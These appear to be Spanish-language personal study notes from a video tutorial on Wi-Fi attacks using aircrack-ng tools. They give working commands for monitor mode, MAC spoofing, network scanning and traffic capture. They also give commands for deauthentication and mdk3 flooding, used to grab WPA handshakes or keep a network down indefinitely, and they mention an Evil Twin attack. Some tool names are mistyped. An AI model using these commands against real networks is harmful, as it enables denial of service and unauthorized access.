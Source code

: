   PREPARAR HW:
  - listar tarjetas **ifconfig** (saldra algo como wlan0)
  - activar modo monitor: **airmon-ng start wlan0**, luego hacemos **ifconfig** ahora la interfaz se llamar algo como wlan0mon (00:04)
  - matar wpa_supplicant y dhclient: **killall dhclient wpa_supplicant**
  - cambiar mac: **ifconfig wlan0 down** (no podemos cambiarla si esta activa) y luego **macchanger -a wlan0mon** (-a nos da una aleatoria). Podriamos poner la MAC que quisieramos con **macchanger --mac="poner_aqui_la_MAC" wlan0mon**. Con **macchanger -s wlan0mon** puedo ver la real y la nueva.
  - en .bashrc podemos hacer un script para 'preparar el entorno'. Enviamos la salida de outputs a /dev/null (00:16)
  - <img src="https://github.com/sergioalegre/OS_Tips/blob/master/pics/wifi1.JPG">
  - si nos da problemas el modo monitor, podemos resetear la red con **service network-manager restart**

  NUESTRO ENTORNO:
  - listar ESSIDs accesibles **iwlist wlan0 scan | grep ESSID -i**
  - invocamos la funcion con **monitorInit** (00:21)
  - Veremos nuestro entorno con **airodump-ng wlan0mon** nos enseñara las redes y los clientes conectados a ellas. El BBSI es la MAC del router, PWR es lo cercana que esta la red, cuando mas cercana a 0 señal mas fuerte (00:24) STATION es la MAC de un cliente conectado a alguna red (00:28), sabemos si el cliente esta activo (00:30) si aumenta el numero de Frames. Probe (00:33) te mostrara a clientes que estan buscando redes conocidas (a las que ya han estado conectados en el pasasdo) es util porque si sabemos que ese cliente busca esa red la podemos generar para engañarle (00:36-00:41) creo que esto se llama Evil Twin Attack.

  RED OBJETIVO:
  - para centrarnos en la red objetivo **airodump-ng --essid <nombre_ssid> wlan0mon** (00:42)
  - capturamos trafico **airodump-ng -w archivo_captura --essid <nombre_ssid> wlan0mon** (00:44) la idea es luego con tshark o wireshark cargar el archivo generado **tshark -r archivo_captura.cap**

  ATAQUES ACTIVOS (forzar reconexion de cliente expone el handshake):
  - Ataque de-autenticacion dirigido: capturar handshake expulsando a un cliente de la red. Funciona solo para WPA/WPA2 con PSK (00:47-00:53)
    - **airplay -ng -0 10 -e <nombre_ssid> -c <mac_cliente> wlan0mon** (00:51)

  - Ataque de-autenticacion global: expulsar a todos los clientes de la red, mas probable de obtener el handshake (00:53-00:59)
    - **airplay -ng -0 0 -e <nombre_ssid> wlan0mon**
    - si queremos dejar una wifi KO (infinitos paquetes de de-autenticacion) **airplay -ng -0 0 -e <nombre_ssid> wlan0mon**

  - Ataque de autenticación: autentica a un cliente en una red (00:59-01:05)
    - **airplay-ng -1 0 -e <nombre_ssid> -h <mac_falsa> wlan0mon**
    - Ataque de autenticacion masiva mdk3 **mdk3 wlan0mon a -a <mac_router>** inyectara miles de clientes saturandola. Si hay un cliente real esto le obliga a reautenticarse y obtendremos el handshake (01:02)

